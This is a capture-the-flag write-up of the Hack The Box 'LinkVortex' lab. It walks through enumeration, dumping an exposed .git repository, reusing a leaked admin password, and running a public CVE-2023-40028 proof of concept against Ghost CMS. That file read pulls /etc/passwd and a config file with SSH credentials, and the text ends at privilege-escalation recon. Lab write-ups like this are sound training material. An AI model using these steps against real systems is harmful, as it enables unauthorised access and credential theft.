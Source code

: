 # LinkVortex Write-up

<img src="https://labs.hackthebox.com/storage/avatars/97f12db8fafed028448e29e30be7efac.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.11.47`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
    |_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
    80/tcp open  http    Apache httpd
    |_http-server-header: Apache
    |_http-title: Did not follow redirect to http://linkvortex.htb/
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add domain name to `/etc/hosts`

    sudo echo "10.10.11.47 linkvortex.htb" | sudo tee -a /etc/hosts

Main page 

![image](https://github.com/user-attachments/assets/8d7b2112-786e-415a-9e20-4b45ad71107a)

### Directory enumeration with Dirsearch

`python3 dirsearch.py -u http://linkvortex.htb`

      _|. _ _  _  _  _ _|_    v0.4.3                                                        
     (_||| _) (/_(_|| (_| )                                                                 
                                                                                            
    Target: http://linkvortex.htb/
    
    [13:17:08] Scanning:                                                                    
    [13:18:20] 301 -   179B - /assets  ->  /assets/                             
    [13:18:24] 301 -     0B - /axis2-web//HappyAxis.jsp  ->  /axis2-web/HappyAxis.jsp/
    [13:18:28] 301 -     0B - /axis//happyaxis.jsp  ->  /axis/happyaxis.jsp/    
    [13:18:28] 301 -     0B - /axis2//axis2-web/HappyAxis.jsp  ->  /axis2/axis2-web/HappyAxis.jsp/
    [13:18:38] 301 -     0B - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  /Citrix/AccessPlatform/auth/clientscripts/cookies.js/
    [13:18:48] 301 -     0B - /engine/classes/swfupload//swfupload.swf  ->  /engine/classes/swfupload/swfupload.swf/
    [13:18:48] 301 -     0B - /engine/classes/swfupload//swfupload_f9.swf  ->  /engine/classes/swfupload/swfupload_f9.swf/
    [13:18:50] 301 -     0B - /extjs/resources//charts.swf  ->  /extjs/resources/charts.swf/
    [13:18:50] 200 -   15KB - /favicon.ico                                      
    [13:18:55] 301 -     0B - /html/js/misc/swfupload//swfupload.swf  ->  /html/js/misc/swfupload/swfupload.swf/
    [13:19:03] 200 -    1KB - /LICENSE                                          
    [13:21:07] 200 -   121B - /robots.txt                                        
    [13:22:03] 200 -   527B - /sitemap.xml                                       

`/robots.txt`

![image](https://github.com/user-attachments/assets/0020976b-e733-4743-8ede-5e170b74f309)

`/ghost/`

![image](https://github.com/user-attachments/assets/0bd133c8-5ae1-4c5d-ba86-4da790dab444)


### Sub-Domain enumeration 

Using Ffuf 

    ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://FUZZ.linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -mc 200

Find `dev` subdomain, so add to `/etc/hosts` and open!

    sudo echo "10.10.11.47 dev.linkvortex.htb" | sudo tee -a /etc/hosts

![image](https://github.com/user-attachments/assets/14c6ca4d-0ac6-4bcd-8a89-efe73e401c4b)

### Directory enumeration

Enumerate the directories for dev.linkvortex.htb

`python3 dirsearch.py -u http://dev.linkvortex.htb`

          _|. _ _  _  _  _ _|_    v0.4.3
         (_||| _) (/_(_|| (_| )
        
        Scanning: 
        301 -   239B - /.git  ->  http://dev.linkvortex.htb/.git/        
        200 -   201B - /.git/config                                      
        200 -    73B - /.git/description
        200 -    41B - /.git/HEAD                                        
        200 -   874B - /.git/info/                                       
        200 -   240B - /.git/info/exclude
        200 -   868B - /.git/logs/                                       
        200 -   175B - /.git/logs/HEAD
        200 -   147B - /.git/packed-refs                                 
        200 -   869B - /.git/refs/
        301 -   249B - /.git/refs/tags  ->  http://dev.linkvortex.htb/.git/refs/tags/
        200 -    3KB - /.git/                                            
        200 -    1KB - /.git/objects/                                    
        200 -    3KB - /.git/hooks/                                      
        200 -  691KB - /.git/index                                       
        403 -   199B - /cgi-bin/                                         
        200 -    2KB - /index.html                                       
        403 -   199B - /server-status                                    
        403 -   199B - /server-status/

We can find `/.git/` let's use GitHack

### GitHack

    python3 GitHack.py -u "http://dev.linkvortex.htb/.git/"

![image](https://github.com/user-attachments/assets/8ef7be29-cc87-4f12-be1e-812197554f84)

    cat dev.linkvortex.htb/ghost/core/test/regression/api/admin/authentication.test.js

![image](https://github.com/user-attachments/assets/392bec70-cd33-491b-84e9-3c28fc588b03)

Password:

    OctopiFociPilfer45

Open page linkvortex.htb/ghost/#/signin and try to login like `admin`

`admin@linkvortex.htb`:`OctopiFociPilfer45`

![image](https://github.com/user-attachments/assets/cf968a12-5b5e-4aff-8c24-20bc9a718fff)

![image](https://github.com/user-attachments/assets/12f1bff5-e807-4c1c-a129-d82507bf27bb)

We now know the version of the CMS `GHost`. 

It is `v5.58.0`, we can find this out using `Wappalyzer` or by reading `/.git/config`. 

![image](https://github.com/user-attachments/assets/11fc0e3c-fb2c-4e29-94f5-b45096abe554)

## Exploitation 

### CVE-2023-40028

CVE-2023-40028 is a vulnerability in Ghost CMS that allows arbitrary file reads through improper file handling. 

Find and clone the open POC for CVE-2023-40028.

    git clone https://github.com/0xyassine/CVE-2023-40028

Change `GHOST_URL` IP to our host!

    GHOST_URL='http://linkvortex.htb'

![image](https://github.com/user-attachments/assets/d37ecaa3-f736-437f-8b35-af95ec74a57d)

Run script

    ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45

And enter file name || path.

file> `/etc/passwd`

![image](https://github.com/user-attachments/assets/5439acf3-9f21-403f-8999-ce44c2a815dc)

If you remember we have a Dockerfile from GitHack, let's go through it.

![image](https://github.com/user-attachments/assets/7b18733b-1a23-4a25-a5c1-b8231b7f7545)

    var/lib/ghost/config.production.json

![image](https://github.com/user-attachments/assets/4cfac89a-a9ff-4194-b6ef-b53a0a2d5f6d)

Credentials `bob@linkvortex.htb`:`fibber-talented-worth`

    ssh bob@linkvortex.htb

![image](https://github.com/user-attachments/assets/b6e4fd1a-a7a8-4d10-896a-a246d6186afc)

### Get the user flag!

![image](https://github.com/user-attachments/assets/830f92a3-f1b1-4840-9368-8a7f568046df)

## Privilege Escalation

    sudo -l
